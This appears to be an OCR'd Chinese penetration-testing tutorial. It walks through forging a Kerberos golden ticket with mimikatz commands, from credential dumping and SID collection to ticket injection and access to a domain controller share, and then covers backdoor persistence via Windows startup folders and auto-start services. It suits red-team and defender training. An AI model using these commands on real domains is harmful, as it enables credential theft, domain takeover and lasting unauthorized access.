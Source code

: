 


五、黄金白银票据
黄金票据制作
1，利用mimikatz获取krbtgt账户的hash值，并导出（这一步在横向移动过程中可以利用信息收集过程中去获得）
krbtgt是Windows域中的默认管理员账户，它是域控制器使用的账户。该账户由LDAP和Kerberos认证系统使用，并且在域环境中的每个域控制器上都存在一个krbtgt账户。这个账户的主要作用是为了帮助用户和应用程序使用Kerberos进行身份验证，并授权票据。

获取hash值：privilege::debug
导出hash值：lsadump::lsa /patch
krbtgt账户的hash值：b097d7ed97495408e1537f706c357fc5


2，在受控主机上（webserver）执行命令获取域的SID值
获取当前受控主机的SID值：whoami /all
获取所有SID值：wmic useraccount get sid,name
SID值：S-1-5-21-1218902331-2157346161-1782232778

3，利用mimikatz生成票据
kerberos::golden /user:webadmin /domain:god.org /sid:S-1-5-21-1218902331-2157346161-1782232778 /krbtgt:b097d7ed97495408e1537f706c357fc5 /ticket:xiaolin
#调用mimikatz输入命令利用收集到的krbtgt账户的hash值和当前受控主机的SID值伪造黄金票据，文件名
为：xiaolin


4，把生成出来的票据导入到被控机的内存中（导入之前要先清除当前所有票据
查看票据：klist
清除所有票据：klist purge


5，利用mimikatz将刚刚伪造的黄金票据（xiaolin）导入到内存中
mimikatz中执行：Kerberos::ptt xiaolin
受控机CMD检查票据：klist

6，利用票据，连接域控主机
dir \\owa2010cn-god\c$

黄金票据总结：此类攻击方式属于后门的一种形式，是第二次进行攻击的方法。
第一次拿到域管权限之后，需要将krbtgt hash进行保存，当第二次再来进行域渗透时，我们就可以使用krbtgt的hash值来制作黄金票据，从而再次获得域管权限（权限维持）


黄金票据和白银票据的区别：
==黄金票据：伪造的票据可以获取任意的访问权限；由krbtgt NTLM hash加密==
==白银票据：只能访问指定的服务，如CIFS；由服务账号的NTLM hash加密==


==============================================================================================================================

==**单机环境**==
演示环境：Windows2003 server
一、自启动路径加载
在Windows服务器系统中有一个目录中的文件，每次开机时都会自动启动。
==目录路径为：C:\Documents and Settings\Administrator\「开始」菜单\程序\启动==
所有在这个目录下存在的程序都会在系统重启的时候被自动加载。因此我们可以利用这个特性，将我们的后门程序放到此目录下，一旦服务器重启即可自动加载我们的后门。


二、自启动服务加载
在Windows系统中除了一些自启动的路径会在开机时自动启动，还存在很多的服务。这些服务也是会被开机启动的，因此我们还可以利用自启动的服务来加载后门！
